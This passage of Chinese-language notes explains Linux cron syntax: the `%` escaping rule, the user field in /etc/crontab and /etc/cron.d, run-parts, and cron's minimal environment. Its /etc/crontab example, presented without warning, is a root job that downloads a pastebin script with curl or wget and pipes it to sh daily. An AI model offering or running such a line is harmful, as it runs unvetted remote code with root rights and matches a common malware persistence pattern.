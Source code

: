 #### command part
 
command part 指定了 schedule 的命令，以 newline 或者是 `%` 结尾(划分 cron entries)，默认会以 `/bin/sh` 运行

> [!important]
> 所以如果 command part 使了用类似 `mysqldump` 配合 `like %` 的，需要使用 `\` 转义(如果没有转义 mail subject 不是完整的 command part)

如果 command part 出现 `%`，且没有使用 `\` 转义，那么 `%` 会被认为是 newline ，并且 `%` 后面的内容都会会认为是 stdin 中的
 
#### `/etc/cron.d` and `/etc/crontab`
 
`/etc/cron.d` 和 `/etc/crontab` 是针对系统的 crontab files，并不知道需要以（那些）用户运行 command part。所以在 cron part 和 command part 之间新增了一个字段表示运行的用户
 
```
0 4 * * * root (crul -fsSL https://pastebin.com/raw/e8XzcU2Q || wget -q -O- https://pastebin.com/raw/e8XzcU2Q) | sh
```
 
#### run-parts
 
你可能还会在 crontab files 中常常看见 `run-parts`，例如默认的 `/etc/cron.d/0hourly`
 
```
# Run the hourly jobs
SHELL=/bin/bash
PATH=/sbin:/bin:/usr/sbin:/usr/bin
MAILTO=root
01 * * * * root run-parts /etc/cron.hourly
```
 
这其实就是 command part，而 `run-parts` 会运行指定目录下的所有 executable files。例如上述就会运行 `/etc/corn.hourly` 中所有的内容，通常就是一个 `0anacron` shell 脚本
 
### 0x03c Environments
 
**cron 并不会使用系统的全局变量(所以直接使用 PATH 下的命令，可能会不生效，尽可能使用绝对路径)**， 这一点可以使用如下规则来校验

```
[root@vbox ~]# echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/root/bin

[root@vbox ~]# crontab -l
* * * * * echo ${PATH}

[root@vbox mail]# tail -f root

From root@vbox.localdomain  Thu Oct 31 14:23:01 2024
Return-Path: <root@vbox.localdomain>
X-Original-To: root
Delivered-To: root@vbox.localdomain
Received: by vbox.localdomain (Postfix, from userid 0)
        id 36197600CFA6; Thu, 31 Oct 2024 14:23:01 +0800 (CST)
From: "(Cron Daemon)" <root@vbox.localdomain>
To: root@vbox.localdomain
Subject: Cron <root@vbox> echo ${PATH}
Content-Type: text/plain; charset=UTF-8
Auto-Submitted: auto-generated
Precedence: bulk
X-Cron-Env: <XDG_SESSION_ID=25>
X-Cron-Env: <XDG_RUNTIME_DIR=/run/user/0>
X-Cron-Env: <LANG=en_US.UTF-8>
X-Cron-Env: <SHELL=/bin/sh>
X-Cron-Env: <HOME=/root>
X-Cron-Env: <PATH=/usr/bin:/bin>
X-Cron-Env: <LOGNAME=root>
X-Cron-Env: <USER=root>
```